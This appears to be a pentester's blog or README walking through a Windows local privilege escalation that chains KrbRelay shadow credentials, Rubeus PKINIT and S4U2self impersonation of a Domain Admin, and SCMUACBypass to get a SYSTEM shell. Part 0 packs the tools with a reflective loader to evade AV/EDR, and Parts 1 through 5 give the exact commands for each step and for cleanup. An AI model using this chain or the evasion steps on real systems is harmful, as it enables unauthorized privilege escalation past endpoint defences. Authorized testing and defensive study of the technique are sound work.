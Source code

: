 ## No-Fix Local Privilege Escalation Using KrbRelay With Shadow Credentials

### Background (Inspiration, Overview, & WHY???)
Because who doesn't want a SYSTEM shell? Thanks to [Cube0x0](https://twitter.com/cube0x0), pentesters have been blessed with a tool called [KrbRelay](https://github.com/cube0x0/KrbRelay) that enables the exploitation of a No-Fix LPE via relaying Kerberos authentication. See below for the pre-requisites necessary for this guide:

* Domain Controller without LDAP Signing enforced (default)
* Domain Controller with its own server authentication certificate (for PKINIT authentication)
* Ability to write the msDs-KeyCredentialLink attribute of the target computer account (default)

In addition to KrbRelay, this guide will use [Rubeus](https://github.com/GhostPack/Rubeus) to request a ticket using the shadow credential and to perform a S4U2self request that will impersonate a DA user on the local machine. After the impersonated ticket is imported, we will use the [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) tool by [Tyranid](https://twitter.com/tiraniddo) to spawn a shell as SYSTEM. This process is pretty much identical to what's used in the ShadowCred mode of [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) by [dec0ne](https://twitter.com/dec0ne), so definitely check that out for more information.

### Why not just use KrbRelayUp?
**GOOD QUESTION!** KrbRelayUp is an amazing all-in-one tool. However, I noticed that certain aspects of it don't work as expected after packing it with my reflective loaders to evade AV/EDR. Specifically, I have been unable to get the SCMUACBypass implementation of KrbRelayUp to spawn a SYSTEM shell for me after being packed. 

![reflective loaders](https://i.imgur.com/fh57DT9.png)

This guide will explain how to separate the shadow credential method that KrbRelayUp uses into multiple different steps, giving you a bit more control regarding how each piece executes. For example, we can reflectively load some pieces, and execute others normally. Thanks to [an0n_r0's](https://twitter.com/an0n_r0) [guide](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9) regarding exploiting this LPE via RBCD which inspired me to make this guide for the shadow credential process.


---
### Part 0: Preparing our Tools to Evade AV/EDR
As stated earlier, this guide will focus on how to perform the LPE using shadow credentials in a REAL WORLD environment with AV/EDR enabled. Because of this, most of the tools we use will need to be packed with a reflective loader to prevent them from being blocked upon execution. Luckily, my public [Nimcrypt2 PE packer](https://github.com/icyguider/Nimcrypt2) worked very well when I was recently trying to do this against a popular EDR, so that's what I'll be using for this guide.

Below is a list of the tools required for this process that I will be packing to prevent them from being blocked:
* [KrbRelay](https://github.com/cube0x0/KrbRelay)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Whisker](https://github.com/eladshamir/Whisker)

These tools were packed using Nimcrypt2 with the following arguments:
```
./nimcrypt -f KrbRelay.exe -t csharp -u -e -o NimCKrbR.exe
```

The final tool we will use, [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82), will NOT require packing, as it doesn't seem to get blocked from my testing with different AV & EDR solutions. My packers also seem to prevent it from working properly, so I would need to manually modify it to prevent detection if required in the future.

Now that we have all the tools we'll need ready to go, we can transfer them to our target machine and finally begin the LPE process!

---
### Part 1: Adding a Shadow Credential Using KrbRelay
The first step in this process is to add a shadow credential to our local machine using KrbRelay. This is pretty straight forward as it's documented well in the readme for KrbRelay. We will use the first example listed in the KrbRelay readme, substituting in our Domain Controller with LDAP signing disabled for the SPN. After we run this command, we should have a certificate for our shadow credential that can be used to request a Kerberos ticket for the machine account via PKINIT.
```
.\NimCKrbR.exe -spn ldap/virtualdc.testlab.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred
```
<details>
  <summary>See Screenshot</summary>

<img alt="Adding a Shadow Credential Using KrbRelay" src="https://i.imgur.com/acnlvYN.png"/>
</details>

---
### Part 2: Requesting a Machine Account Ticket via PKINIT
Once we have a certificate for our shadow credential, we can use it with Rubeus to request a Kerberos ticket for the machine account via PKINIT. The example command below will use AES256 as the encryption type in cases where RC4 isn't supported and specifies the /nowrap flag so we can more easily copy the resulting ticket. 
```
.\NimCRube.exe asktgt /user:RICHARD-PC$ /certificate:CERTIFICATE /password:PASSWORD /enctype:AES256 /nowrap
```
<details>
  <summary>See Screenshot</summary>
  
<img alt="Rubeus Request Machine Account Ticket via PKINIT" src="https://i.imgur.com/s6Mb5ls.png"/>
</details>

---
### Part 3: Perform S4U2self for Service Ticket Impersonating a DA 
The next part of the process is to use the ticket we obtained in the previous step to perform a S4U2self request to acquire a service ticket for the local machine impersonating a Domain Admin. Technically, any domain user that has local admin rights to the local machine can also be used for the impersonation, but I find just using a DA makes things a bit easier. We will be doing this using Rubeus while making sure to supply the /ptt flag so that the resulting service ticket is automatically imported into the current session.
```
.\NimCRube.exe s4u /self /user:RICHARD-PC$ /impersonateuser:randy /altservice:host/RICHARD-PC /ptt /ticket:TICKET
```
<details>
  <summary>See Screenshot</summary>
 
<img alt="Rubeus S4U2Self Request and Service Ticket Import" src="https://i.imgur.com/jPR02GW.png"/>
</details>

---
### Part 4: Spawn a SYSTEM Shell via SCMUACBypass
The final step in this process is to use the SCMUACBypass tool to spawn a shell as SYSTEM. This tool will use the imported ticket to authenticate to the local system and create a new service, so it's a good idea to check to make sure everything looks correct using the klist command before executing it. 
```
klist
.\SCMUACBP.exe
```
*BOOM SYSTEM SH3LL ! ! !*

<details>
  <summary>See Screenshot</summary>

<img alt="Spawn System Shell via SCMUACBypass" src="https://i.imgur.com/sIeeaWG.png"/>
</details>

---
### Part 5: Cleaning Up
This step is optional; however it is highly recommended, especially if you plan on repeating this process on the same machine later. The following command can be executed via the SYSTEM shell to clean up the service created by the SCMUACBypass tool:
```
sc delete UacBypassedService
```
Our shadow credential can be removed from the local machine by using the [Whisker](https://github.com/eladshamir/Whisker) tool. We can first run the following command to find its DeviceID:
```
.\NimCWhisker.exe list /target:RICHARD-PC$
```
The shadow credential can then be removed like so:
```
.\NimCWhisker.exe remove /deviceID:DEVICE_ID /target:RICHARD-PC$
```
<details>
  <summary>See Screenshot</summary>

<img alt="Clean up SCMUACBypass and Shadow Credential" src="https://i.imgur.com/ZImr4wC.png"/>
</details>

---
### Part 6: The End!

This concludes the blog post! Please feel free to reach out to me if you have any questions or feedback. Also, I've made a quick video demonstrating this process on a fully up-to-date Windows 10 PC with Defender enabled, so definitely check that out if you're interested!: [https://www.youtube.com/watch?v=TDZwx9LERFw](https://www.youtube.com/watch?v=TDZwx9LERFw)

Big thanks to the people below for their amazing work on this topic!

* [Cube0x0](https://twitter.com/cube0x0) for [KrbRelay](https://github.com/cube0x0/KrbRelay)
* [Harmj0y](https://twitter.com/harmj0y) for [Rubeus](https://github.com/GhostPack/Rubeus)
* [Tyranid (James Forshaw)](https://twitter.com/tiraniddo) for [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82)
* [Dec0ne](https://twitter.com/dec0ne) for [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
* [Elad Shamir](https://twitter.com/elad_shamir) for [Whisker](https://github.com/eladshamir/Whisker)
* [an0n_r0](https://twitter.com/an0n_r0) for [KrbRelay with RBCD Privilege Escalation HOWTO](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
